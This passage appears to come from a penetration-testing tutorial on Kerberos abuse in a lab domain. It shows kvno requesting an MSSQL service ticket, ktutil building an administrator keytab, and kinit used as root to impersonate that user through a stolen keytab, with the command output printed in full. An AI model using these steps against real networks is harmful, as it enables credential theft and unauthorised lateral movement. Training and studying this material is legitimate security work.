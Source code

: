 Let’s request a service ticket from Kerberos for the MSSQL SPN highlighted above. We can do this using the kvno utility.
```bash
administrator@corp1.com@linuxvictim:/tmp$ kvno MSSQLSvc/DC01.corp1.com:1433
MSSQLSvc/DC01.corp1.com:1433@CORP1.COM: kvno = 2
```

Our ticket should now be in our credential cache. We can use klist again to confirm it was successful.
```bash
administrator@corp1.com@linuxvictim:/tmp$ klist
Ticket cache: FILE:/tmp/krb5cc_607000500_3aeIA5
Default principal: Administrator@CORP1.COM
Valid starting Expires Service principal
07/30/2020 15:11:10 07/31/2020 01:11:10 krbtgt/CORP1.COM@CORP1.COM
renew until 08/06/2020 15:11:08
07/30/2020 15:11:41 07/31/2020 01:11:10 ldap/dc01.corp1.com@CORP1.COM
renew until 08/06/2020 15:11:08
07/30/2020 15:11:57 07/31/2020 01:11:10 MSSQLSvc/DC01.corp1.com:1433@CORP1.COM
renew until 08/06/2020 15:11:08
```

# Stealing Keytab Files

Keytab files contain a Kerberos principal name and encrypted keys. These allow a user or script to authenticate to Kerberos resources elsewhere on the network on the principal’s behalf without entering a password.

Keytab files are commonly used in `cron` scripts when Kerberos authentication is needed to access certain resources.

We’ll run the `ktutil` command, which provides us with an interactive prompt. Then we use `addent` to add an entry to the keytab file for the administrator user and specify the encryption type with `-e`. The utility asks for the user’s password, which we provide. We then use `wkt` with a path to specify where the keytab file should be written. Finally, we can exit the utility with the `quit` command.
```bash
administrator@corp1.com@linuxvictim:~$ ktutil
ktutil: addent -password -p administrator@CORP1.COM -k 1 -e rc4-hmac
Password for administrator@CORP1.COM:
ktutil: wkt /tmp/administrator.keytab
ktutil: quit
```


Assuming we have gained root access to a machine with this keytab active, we can use it to gain access to other system on behalf of the user specified in the keytab file:
```bash
root@linuxvictim:~# kinit administrator@CORP1.COM -k -t /tmp/administrator.keytab
```

Now we see the ticket loaded:
```bash
root@linuxvictim:~# klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: administrator@CORP1.COM
Valid starting Expires Service principal
07/30/2020 15:18:34 07/31/2020 01:18:34 krbtgt/CORP1.COM@CORP1.COM
renew until 08/06/2020 15:18:34
```
